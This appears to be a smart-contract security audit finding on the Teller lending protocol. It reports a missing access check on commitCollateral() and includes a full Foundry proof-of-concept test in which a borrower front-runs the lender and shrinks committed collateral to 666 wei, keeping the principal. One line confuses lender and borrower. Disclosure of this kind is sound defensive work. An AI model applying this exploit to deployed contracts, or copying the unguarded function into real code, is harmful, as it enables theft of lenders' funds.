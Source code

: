 dingo

high

# [H-03] Attacker can steal all approved lender's assets without lost of collateral over commitCollateral() fuction.

## Summary
SC: CollateralManager.sol
Type: Critical

Step by step attack vector:
Let's say borrower(attacker) has `100e18` and lender has `100e18`

1) Attacker submits bid for `50e18` principal and confirm collateral as `100e18`.
2) Attacker call `commitCollateral()` right before lender accept bid (for example frontrun) and change collateral parameters because `commitCollateral()` missed access modifier.
3) Lender accepts bid, principal is going to lender and new amount of collateral going to escrow. (let's say 666 wei).
4) Attacker can do not pay this loan.

## Vulnerability Detail
Foundry test:
1) Create `H-03.t.sol `and run `forge test --match-path tests/TellerV2/H-03.t.sol -vvvv` 
2) Test code:  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "forge-std/Test.sol";
import "../../contracts/TellerV2.sol";
import "../tokens/TestERC20Token.sol";
import "./User.sol";

import "../../contracts/EAS/TellerAS.sol";
import "../../contracts/EAS/TellerASEIP712Verifier.sol";
import "../../contracts/EAS/TellerASRegistry.sol";

import {ReputationManager} from "../../contracts/ReputationManager.sol";
import "../../contracts/CollateralManager.sol";
import "../../contracts/LenderManager.sol";
import {MarketRegistry} from "../../contracts/MarketRegistry.sol";
import "../../contracts/LenderCommitmentForwarder.sol";
import "../../contracts/escrow/CollateralEscrowV1.sol";
import "../../contracts/escrow/CollateralEscrowV1.sol";
import "@openzeppelin/contracts/proxy/beacon/UpgradeableBeacon.sol";

contract MyTest is Test {

    TellerV2 tellerV2;
    TestERC20Token lendingToken;
    TestERC20Token lendingTokenZeroDecimals;
    User borrower;
    User lender;
    User marketOwner3;
    User receiver;
    User marketOwner;
    User feeRecipient;
    User trustedForwarder;
    MarketRegistry marketRegistry;
    ReputationManager reputationManager;
    CollateralManager collateralManager;
    LenderManager lenderManager;
    LenderCommitmentForwarder lenderCommitmentForwarder;
    CollateralEscrowV1 collateralEscrowV1;
    UpgradeableBeacon upgradeableBeacon;
   
    TellerAS tellerAS;
    TellerASEIP712Verifier tellerASEIP712Verifier;
    TellerASRegistry tellerASRegistry;

    function setUp() public {

        borrower                  = new User();
        lender                    = new User();
        receiver                  = new User();
        marketOwner               = new User();
        feeRecipient              = new User();
        trustedForwarder          = new User(); //~
        tellerV2                  = new TellerV2(address(this)); //trustedForwarder in const
        tellerASEIP712Verifier    = new TellerASEIP712Verifier();
        tellerASRegistry          = new TellerASRegistry();
        tellerAS                  = new TellerAS(tellerASRegistry,tellerASEIP712Verifier);

        marketRegistry            = new MarketRegistry();
        reputationManager         = new ReputationManager();
        collateralManager         = new CollateralManager();
        lenderManager             = new LenderManager(marketRegistry);
        lenderCommitmentForwarder = new LenderCommitmentForwarder(address(tellerV2),address(marketRegistry));
        collateralEscrowV1        = new CollateralEscrowV1();
        upgradeableBeacon         = new UpgradeableBeacon(address(collateralEscrowV1));

        lendingToken             = new TestERC20Token("Wrapped Ether", "WETH", 1e30, 18);
        lendingTokenZeroDecimals = new TestERC20Token(
            "Wrapped Ether",
            "WETH",
            1e16,
            0
        );
        deal({token: address(lendingToken), to: address(lender), give: 100e18});
        deal({token: address(lendingToken), to: address(borrower), give: 100e18});

        vm.prank(address(lender));
        lendingToken.approve(address(tellerV2),100e18);
        vm.prank(address(borrower));
        lendingToken.approve(address(tellerV2),100e18);
        
        reputationManager.initialize(address(tellerV2));
        marketRegistry.initialize(tellerAS);
        collateralManager.initialize(address(upgradeableBeacon),address(tellerV2));
        tellerV2.initialize(
            0,  //_protocolFee
            address(marketRegistry),
            address(reputationManager),
            address(lenderCommitmentForwarder),
            address(collateralManager),
            address(lenderManager)
        );
    }

    function testAttack() public {
        
        vm.startPrank(address(marketOwner));
        marketRegistry.createMarket(
            address(marketOwner),
            30 days, 
            10,       //_paymentDefaultDuration 
            1 days,   //_bidExpirationTime
            0,        //feePercent  <<==Fee is 0
            false,    //lenderAttest
            false,    //borrowerAttest
            "mytestURI"
        );
        vm.stopPrank();

        //Bid with collateral
        Collateral[] memory collateral = new Collateral[](1);
        Collateral memory collateral_1 = Collateral ({
            _collateralType: CollateralType.ERC20,
            _amount: 100e18, //set ollateral here
            _tokenId: 0,
            _collateralAddress: address(lendingToken)
        });
        collateral[0] = collateral_1;
        console.log("===========================BEFORE submitBid======================================");
        console.log("Borrower ERC20 balance:          ",lendingToken.balanceOf(address(borrower)));
        console.log("Lender ERC20 balance:            ",lendingToken.balanceOf(address(lender)));
        console.log("MarketOwner ERC20 balance:       ",lendingToken.balanceOf(address(marketOwner)));
        console.log("Lender manager ERC20 balance:    ",lendingToken.balanceOf(0x1F88f48585ad6754e59c03debd4502399e33Ff50)); //Beacon proxy, CollateralManager.sol `mapping(uint256 => address) public _escrows`
        console.log("lender manager address", address(collateralEscrowV1));
        vm.startPrank(address(borrower));
        tellerV2.submitBid(
            address(lendingToken), // lending token
            1, //_marketplaceId
            50e18, // principal
            365 days, // duration
            10_00, // interest rate 
            "", // metadata URI
            address(borrower), // receiver
            collateral
        );
        lendingToken.approve(address(collateralManager),100e18);
        vm.stopPrank();
        
        //changeCollateral in mapping by attacker or any other user (there is no modificator)
        Collateral[] memory collateralFakeArr = new Collateral[](1);
        Collateral memory collateralFakeStruct = Collateral ({
            _collateralType: CollateralType.ERC20,
            _amount: 666, //set new collateral amount
            _tokenId: 0,
            _collateralAddress: address(lendingToken)
        });
        collateralFakeArr[0] = collateralFakeStruct;
        collateralManager.commitCollateral(0,collateralFakeArr); //call it right before lenderAcceptBid

        vm.startPrank(address(lender));
        tellerV2.lenderAcceptBid(0);


        console.log("===========================AFTER lenderAcceptBid====================================");
        console.log("Borrower ERC20 balance:          ",lendingToken.balanceOf(address(borrower)));
        console.log("Lender ERC20 balance:            ",lendingToken.balanceOf(address(lender)));
        console.log("MarketOwner ERC20 balance:       ",lendingToken.balanceOf(address(marketOwner)));
        console.log("Lender manager ERC20 balance:    ",lendingToken.balanceOf(0x1F88f48585ad6754e59c03debd4502399e33Ff50)); //Beacon proxy, CollateralManager.sol `mapping(uint256 => address) public _escrows`
        
        vm.warp(block.timestamp+100);
        vm.stopPrank();
        
    }
}
```
Now lender steal principal. Also there is new amount of collateral escrow as `666 wei`.
![image](https://user-images.githubusercontent.com/106747559/233705474-bc10785d-f032-42de-aa60-0a635a35bfd4.png)

## Impact
Lender's principal could be stolen.

## Code Snippet
https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L117

## Tool used
Manual Review

## Recommendation
Add additional requirements regarding access to function `commitCollateral()` like `onlyTellerV2`
